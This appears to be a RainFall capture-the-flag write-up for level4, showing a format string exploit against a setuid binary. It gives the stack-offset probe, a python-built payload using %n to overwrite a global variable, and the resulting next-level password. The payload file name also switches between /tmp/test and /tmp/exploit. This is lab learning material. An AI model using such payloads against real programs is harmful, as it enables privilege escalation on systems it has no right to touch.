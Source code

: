 level4
======

*	We spawn with a [level4](src/level4) executable
	```console
	level4@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
	level4@RainFall:~$ ./level4
	█
	level4@RainFall:~$ ./level4 
	dsadasd
	dsadasd
	```
*	Let's take a look at the [code](src/level4.c)
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level4@192.168.29.4:~/level4 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level4
	Enter the number of the executable file you want to analyze: 1
	```
*	It seems there is 3 functions -> `main`, `p` and `n`. Even though the code isn't complex, for understanding purposes, I'll use ghidra to convert it to `C` in [level4.c](src/level4.c)
*	To summarize :
	-	`main` calls function `n` then return 
	-	`n` function uses `fgets` and calls `printf` with `p` on what you gave
	-	if the global variable `m` is equal to `0x1025544`, the function `cat` the password for the next level
*	I tried to do like [level3](../level3/) and found our argument at position 12
	```console
	level4@RainFall:~$ ./level4 
	aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
*	Now let's retrieve the little endian address of `m (0x8049810)` -> `\x10\x98\x04\x08`
*	Let's try to print it with the program
	```console
	level4@RainFall:~$ python -c 'print "\x44\x55\x25\x10" + " %x "*12' > /tmp/test
	level4@RainFall:~$ cat /tmp/test | ./level4 
	DU% b7ff26b0  bffff794  b7fd0ff4  0  0  bffff758  804848d  bffff550  200  b7fd1ac0  b7ff37d0  10255544 
	```
	It seems to be working
*	The issue here is that padding of `0x1025544(int 16930116)`is too long so we need one more thing to specify the right field, we will be using the `%d` modifier like in the last level -> `%16930116d`. Let's not forget to remove `4` because of the base address size so it will be `%16930112d`
*	Let's try this and don't forget to change the `12th` position with `%n`:
	```console
	level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/test
	level4@RainFall:~$ cat /tmp/exploit | ./level4
	...
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
	```